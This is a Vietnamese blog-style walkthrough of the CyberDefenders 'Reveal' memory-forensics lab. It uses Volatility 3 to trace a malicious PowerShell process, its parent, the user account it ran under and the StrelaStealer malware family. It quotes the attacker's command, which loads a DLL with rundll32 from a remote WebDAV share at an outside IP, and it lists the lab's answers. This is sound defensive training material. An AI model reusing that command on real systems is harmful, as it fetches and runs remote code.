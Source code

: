 ```yaml
---
title: Reveal Lab
sidebar_position: 2
---
```


Hello mọi người, cùng tôi và cậu ấy giải bài tập CTF nhé :3. Giới thiệu chút thì bài này là[Reveal Lab](https://cyberdefenders.org/blueteam-ctf-challenges/reveal/), thuộc loại Endpoint Forensics, mức dễ. Bài này thì cũng có [hướng dẫn chính thức](https://cyberdefenders.org/walkthroughs/reveal/) rồi, nên tôi và cậu ấy sẽ viết lại quá trình suy nghĩ của mình cũng như những thông tin chúng tôi thấy quan trọng. Bắt đầu nhé :3

## Ngữ cảnh

Bạn là một forensic investigator tại một tổ chức tài chính và SIEM của bạn gắn flag hoạt động bất thường trên máy trạm (workstation) có quyền truy cập vào dữ liệu tài chính nhạy cảm. Nghi ngờ đó là một hành vi vi phạm, bạn đã nhận được một file .dmp xuất từ bộ nhớ của máy bị xâm phạm. Nhiệm vụ của bạn là phân tích bộ nhớ cho các dấu hiệu xâm phạm, theo dõi nguồn gốc của hành vi bất thường và đánh giá phạm vi của nó để quản lý sự cố một cách hiệu quả.

---

## Công cụ sử dụng

Volatility 3 là một framework pháp y bộ nhớ được sử dụng rộng rãi trong điều tra số để phân tích dữ liệu từ RAM dumps. Công cụ này giúp các chuyên gia bảo mật kiểm tra và phát hiện dấu vết hoạt động đáng ngờ trên hệ thống.

![Install Volatility 3](./img/Reveal.png)

### Cách Volatility 3 xử lý bộ nhớ

- **Xác định hệ điều hành:** Volatility 3 tự động nhận diện OS profile để diễn giải đúng cấu trúc dữ liệu trong bộ nhớ.
- **Sử dụng Symbol Tables:** Symbol tables giúp phân tích chính xác layout của bộ nhớ trên các phiên bản hệ điều hành khác nhau.

### Cách Volatility 3 sử dụng Plugins để phân tách dữ liệu

- **Plugin Execution:** Mỗi plugin đảm nhiệm một tác vụ cụ thể như liệt kê tiến trình, kiểm tra kết nối mạng, hoặc phân tích DLL đã tải.
- **Output và Phân Tích:** Plugins trích xuất thông tin có giá trị để giúp điều tra hành vi hệ thống và phát hiện mã độc.

### Cheatsheet có thể giúp bạn Volatility 3:

- [Ashley Pearson Cheatsheet](https://blog.onfvp.com/post/volatility-cheatsheet/)
- [Hacktricks Cheatsheet](https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/memory-dump-analysis/volatility-cheatsheet)

---

## Quá trình phân tích

Là một người điều tra, bạn phải tự hỏi mình ba câu hỏi chính:

- **What** - Bạn đang tìm kiếm điều gì? (ví dụ: một loại tệp cụ thể, tên người dùng, ...)
- **Where** - Bạn sẽ tìm thấy bằng chứng tấn công ở đâu? (ví dụ: bộ nhớ, dựa trên máy chủ, mạng, ...)
- **How** - Bạn có thể làm thế nào để thao tác dữ liệu và xem nó?

### Câu 1: Xác định tên của tiến trình độc hại giúp hiểu bản chất của cuộc tấn công. Tên của tiến trình độc hại là gì?

| Trả lời | powershell.exe |
| ------- | -------------- |

Thú thật với mọi người thì đây là lần đầu tôi và đụng tới file .dmp này và công cụ Volatility 3 lun á :v Trước giờ có nghe nhắc đến nhưng chưa có cơ hội trải nghiệm.

Cứ bắt tay vào làm trước đã, theo như hướng dẫn ở trên, tôi hỏi cậu ấy 3 câu hỏi:

- **Tìm cái gì:** quá trình độc hại - malicious process.
- **Tìm ở đâu:** Trong file .dmp được cung cấp, chắc chắn rồi :v
- **Làm thế nào:** Trước tiên phải xác định được tiến trình thế nào là độc hại và bình thường đã, theo gợi ý thì tôi có thể search ở trang [SANS](https://sansorg.egnyte.com/dl/WFdH1hHnQI), đây là trang tổng hợp đặc điểm nhận dạng của các tiến trình độc hại. Dò thủ công thì khó phát hiện và tốn thời gian, tôi cần ưu tiên tốc độ nên sẽ dùng Volatility3, câu lệnh sẽ là:

`vol -f /home/vita/Downloads/192-Reveal.dmp windows.malfind`

Sau khi chạy câu lệnh thì có vài kết quả như RuntimeBroker, thunderbird và powershell. Thử nhập kết quả lần lượt thì powershell là đáp án chính xác. :v Thực tế thì sẽ phải kiểm tra mọi kết quả nhé mọi người.
![malfind command](<./img/Reveal(2).png>)
![malfind command2](<./img/Reveal(3).png>)

### Câu 2: Biết ID tiến trình cha (PPID) của tiến trình độc hại hỗ trợ theo dõi, phân cấp tiến trình và hiểu được luồng tấn công. PID cha của tiến trình độc hại là gì?

| Trả lời | 4120 |
| ------- | ---- |

- **Tìm cái gì:** PID cha của tiến trình độc hại.
- **Tìm ở đâu:** Trong file .dmp được cung cấp, chắc chắn rồi :v
- **Làm thế nào:** Volatility3 có hỗ trợ xác định cây tiến trình nên tôi sẽ tận dụng chức năng này, với lại tiến trình powershell.exe trên có PID là 3692 nên tôi sẽ lọc ra những thông tin liên quan tới PID này thôi.

`vol -f /home/vita/Downloads/192-Reveal.dmp windows.pstree | grep "3692"`

![PPID](<./img/Reveal(4).png>)

### 🔍 Q3: Tệp tin nào được sử dụng để thực thi payload giai đoạn hai?

| Trả lời | 3435.dll |
| ------- | -------- |

- **Tìm cái gì:** Tên file thực thi payload giai đoạn hai.
- **Tìm ở đâu:** Lệnh thực thi của powershell ban đầu.
- **Tìm thế nào:** Thật ra thì thông tin chi tiết của tiến trình cũng có hiển thị ở đáp án câu trước, nhưng mà hơi thừa thông tin và khó nhìn, nên thôi người ta có chức năng nào thì mình dùng đúng chức năng đó :v theo kết quả tìm được thì "rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry" là sử dụng rundll32.exe để chạy file 3435.dll, vì rundll32.exe là một tiện ích của Windows nên có thể tránh bị phát hiện.

`vol -f /home/vita/Downloads/192-Reveal.dmp windows.cmdline | grep "3692"`

![cmd line](<./img/Reveal(5).png>)

### 🔍 Q4: Tên thư mục chia sẻ được truy cập trên máy chủ từ xa?

| Trả lời | davwwwroot |
| ------- | ---------- |

- **Tìm cái gì:** Tên thư mục chia sẻ được truy cập.
- **Tìm ở đâu:** tương tự như trên, vì câu lệnh vẫn chưa phân tích hết.
- **Tìm thế nào:** Trong câu lệnh lúc nãy có phần "net use \\45.9.74.32@8888\davwwwroot\" dễ nhận thấy được net trong network và dãy IP với port, nên có thể lờ mờ đoán được đây là kết nối tới máy chủ của attacker, và phần phía sau là đường dẫn thư mục.

### 🔍 Q5: Mã kỹ thuật MITRE ATT&CK liên quan đến phương thức thực thi này?

| Trả lời | T1218.011 |
| ------- | --------- |

- **Tìm cái gì:** Mã sub-technique của MITRE ATT&CK liên quan đến phương thức thực thi.
- **Tìm ở đâu:** dựa tên cách rundll32.exe được sử dụng để thực thi DLL từ xa và
- **Tìm thế nào:** truy cập vào trang [attack.mitre.org](https://attack.mitre.org/techniques/T1218/011/) để tìm, từ khóa là rundll32.exe.

### 🔍 Q6: Tên người dùng mà quá trình độc hại chạy dưới quyền của người đó?

| Trả lời | Elon |
| ------- | ---- |

- **Tìm cái gì:** Tài khoản người dùng.
- **Tìm ở đâu:** The Security Identifiers (SIDs) liên kết với quá trình.
- **Tìm thế nào:** rất may là Volatility cũng hỗ trợ chức năng tìm theo SIDs nên tôi sẽ sử dụng nó, và vẫn lọc thông tin theo PID 3692 của powershell.exe ban đầu. Theo kết quả thì thấy được người dùng là **Elon**, với SID S-1-5-21-3274565340-3808842250-3617890653-1001, quyền truy cập vào Domain, quyền Administrator và thậm chí là quyền hệ thống!?

`vol -f /home/vita/Downloads/192-Reveal.dmp windows.getsids.GetSIDs | grep "3692"`

![SIDs](<./img/Reveal(6).png>)

### 🔍 Q7: Tên của malware family?

| Trả lời | StrelaStealer |
| ------- | ------------- |

- **Tìm cái gì:** Tên của họ malware (họ hàng ấy nha) liên quan đến cuộc tấn công.
- **Tìm ở đâu:** Dữ liệu từ **VirusTotal** và các trang có Threat Intelligence reports.
- **Tìm thế nào:** kiểm tra địa chỉ IP độc hại 45.9.74.32 trên VirusTotal.
